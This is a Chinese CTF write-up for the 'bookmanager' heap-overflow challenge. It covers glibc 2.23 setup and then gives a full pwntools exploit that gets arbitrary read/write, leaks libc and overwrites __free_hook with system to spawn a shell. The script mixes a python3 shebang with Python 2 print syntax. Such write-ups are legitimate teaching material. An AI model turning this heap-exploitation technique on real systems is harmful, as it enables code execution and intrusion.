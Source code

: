 # bookmanager

## 写在前面

第一次比赛一个堆溢出题目快要做出来了，却因为环境配置问题（一直无法用给定版本的 `libc.so` 运行程序）。最后不得不再源码编译 `glibc-2.23`（坑太多了，系统被搞崩了一次），心态爆炸。

### 指定版本的 `libc` 运行程序

总结一下到底应该如何使用一个给定的 `glibc` 库文件运行指定的可执行文件：

1.  第一步则是需要拿到指定的 `ld.so` 文件（用于链接 `libc.so` 与可执行文件的程序），将目标文件的链接程序地址指向本地的 `ld.so` 文件。

    这一步网上有 [python 脚本](https://bbs.pediy.com/thread-225849.htm%3E)，但是使用 [`patchelf` 这个命令](https://www.jianshu.com/p/3b219df2b2bd%3E)更快。
2. 第二步是设置 `LD_PRELOAD` 环境变量。

比如说，这个程序需要运行 `libc-2.23.so`，我们就需要执行以下的两条命令：

```bash
$ patchelf --set-interpreter /usr/local/glibc-2.23/lib/ld-2.23.so bookmanager

$ export LD_PRELOAD=/usr/local/glibc-2.23/lib/libc-2.23.so
```

如果我们已经将可执行文件中，链接程序的地址设置好了，我们也可以再 `pwntools` 中这么运行：

```python
from pwn import *
p = process(["./bookmanager"], env={"LD_PRELOAD": "/usr/local/glibc-2.23/lib/libc-2.23.so"})
```

### 编译指定版本的 `libc`

但是上面我文件中的 `ld.so` 文件，题目是没有给的，于是我们就需要通过源码编译的方式得到这个文件。

* 网上应该会有直接的资源下载，但是我太菜了，没有找到，只找到了[源码的国内镜像](http://mirrors.nju.edu.cn/gnu/libc/%3E)

如果没有遇到任何问题，下面几条命令应该是一个完整的编译流程：

```bash
$ wget http://mirrors.nju.edu.cn/gnu/libc/glibc-2.23.tar.bz2

$ tar -xf glibc-2.23.tar.bz2

$ mkdir ./glibc-2.23/glibc-build && cd ./glibc-2.23/glibc-build

$ ../configure --prefix=/usr/local/glibc-2.23 --disable-werror 

$ make && make install
```

但是，使用高版本的 `gcc`、`g++` 交叉编译低版本的 `glibc` 会出现很多 `bug`：

1. 源码层面的出现很多 `bug` 在网上找到了一个\[解决方案]\([https://blog.wh98.me/2019/03/20/%E7%BC%96%E8%AF%91glibc%E9%81%87%E5%88%B0%E7%9A%84%E9%97%AE%E9%A2%98/](https://blog.wh98.me/2019/03/20/%E7%BC%96%E8%AF%91glibc%E9%81%87%E5%88%B0%E7%9A%84%E9%97%AE%E9%A2%98/))；
2. `cc1` 会将 `warning` 当作 `error`，需要在运行 `configure` 命令时加入 `--disable-werror`。

## book manager

程序流程，漏洞发现什么的都不说了，这个题很简单，直接上 `exp.py`：

```python
#!/usr/bin/env python3
from pwn import *


class Challenge:
    def __init__(self, local):
        self.local = local
        if local:
            self.p = process(["./bookmanager"], env={"LD_PRELOAD": "/usr/local/glibc-2.23/lib/libc-2.23.so"})
        else:
            self.p = remote("47.112.115.30", 13337)
        self.libc = ELF("/usr/local/glibc-2.23/lib/libc-2.23.so")
        self.section_ptr, self.book, self.libc_base = {}, {}, 0

    def gdb(self, script):
        assert self.local
        context.terminal = ['tmux', 'splitw', '-h']
        gdb.attach(proc.pidof(self.p)[0], gdbscript=script)

    def set_bookname(self, book_name):
        self.p.sendlineafter("Name of the book you want to create: ", book_name)
        self.p.recvuntil("Your choice:")

    def add_chapter(self, chapter_name):
        self.p.sendline("1")
        self.p.sendlineafter("Chapter name:", chapter_name)
        self.p.recvuntil("Your choice:")

    def add_section(self, chapter_name, section_name):
        self.p.sendline("2")
        self.p.sendlineafter("Which chapter do you want to add into:", chapter_name)
        self.section_ptr[section_name] = int(self.p.recvline().lstrip("0x"), 16)
        self.p.sendlineafter("Section name:", section_name)
        self.p.recvuntil("Your choice:")

    def add_text(self, section_name, text_length, text):
        assert text_length <= 256
        self.p.sendline("3")
        self.p.sendlineafter("Which section do you want to add into:", section_name)
        self.p.sendlineafter("How many chapters you want to write:", str(text_length))
        self.p.sendlineafter("Text:", text)
        self.p.recvuntil("Your choice:")

    def remove_chapter(self, chapter_name):
        self.p.sendline("4")
        self.p.sendlineafter("Chapter name:", chapter_name)
        self.p.recvuntil("Your choice:")

    def remove_section(self, section_name):
        self.p.sendline("5")
        self.p.sendlineafter("Section name:", section_name)
        self.p.recvuntil("Your choice:")

    def remove_text(self, section_name):
        self.p.sendline("6")
        self.p.sendlineafter("Section name:", section_name)
        self.p.recvuntil("Your choice:")

    def book_preview(self):
        self.p.sendline("7")
        recved = self.p.recvuntil("\n=========================="). \
            rstrip("\n==========================").lstrip("\nBook:")
        book_name, chapters = recved.split("\n  Chapter:")[0], recved.split("\n  Chapter:")[1:]
        self.book = {book_name: {}}
        for cind, chapter in enumerate(chapters):
            chapter_name, sections = chapter.split("\n    Section:")[0], chapter.split("\n    Section:")[1:]
            self.book[book_name][chapter_name] = {}
            for sind, section in enumerate(sections):
                section_name, text = section.split("\n      Text:")[0], section.split("\n      Text:")[1]
                self.book[book_name][chapter_name][section_name] = text
        self.p.recvuntil("Your choice:")

    def update(self, choice, old, new):
        assert choice in ["Chapter", "Section", "Text"]
        self.p.sendline("8")
        self.p.sendlineafter("What to update?(Chapter/Section/Text):", choice)
        self.p.sendlineafter(":", old)
        self.p.sendlineafter(":", new)
        assert self.p.recvuntil("Your choice:").strip().startswith("Updated")

    def pwn(self):
        # todo: initialization
        self.set_bookname("PWN_BOOK")
        self.add_chapter("chapter_one")
        self.add_section("chapter_one", "section_one")
        self.add_text("section_one", 0x100 - 0x10 - 0x30, "text_one")
        self.add_section("chapter_one", "section_two")

        # todo: leak heap to get arbitrarily write&read
        self.update("Text", "section_one", flat([
            "A" * 0xc8, 0x41, "section_two".ljust(0x28, "\x00"), 0x20
        ], word_size=64))

        def write_to(address, content):
            payload = flat([
                "A" * 0xc8, 0x41, "section_two".ljust(0x20, "\x00"), address
            ], word_size=64)
            assert len(payload) < 0xff and len(content) < 0xff
            self.update("Text", "section_one", payload)
            self.update("Text", "section_two", content)

        def read_from(address):
            payload = flat([
                "A" * 0xc8, 0x41, "section_two".ljust(0x20, "\x00"), address
            ], word_size=64)
            assert len(payload) < 0xff
            self.update("Text", "section_one", payload)
            self.book_preview()
            text = self.book["PWN_BOOK"]["chapter_one"]["section_two"]
            return u64(text.ljust(8, "\x00")[:8])

        # todo: leak libc address from unsorted bin
        self.add_section("chapter_one", "section_three")
        self.add_text("section_three", 0x100, "BIGTEXT")
        self.add_chapter("chapter_two")     # prevent heap-top
        self.remove_text("section_three")
        unsorted_bin_addr = read_from(self.section_ptr["section_three"] + 0x30 + 0x10)
        self.libc_base = unsorted_bin_addr - 0x19eb78
        print "leak libc_base: %x" % self.libc_base

        # todo: overwrite __free_hook & execute system("/bin/sh")
        free_hook_addr = self.libc.symbols["__free_hook"] + self.libc_base
        system_addr = self.libc.symbols["system"] + self.libc_base
        write_to(free_hook_addr, p64(system_addr))
        self.add_chapter("/bin/sh")
        self.remove_chapter("/bin/sh")
        self.p.interactive()


if __name__ == "__main__":
    c = Challenge(True)
    c.pwn()
```
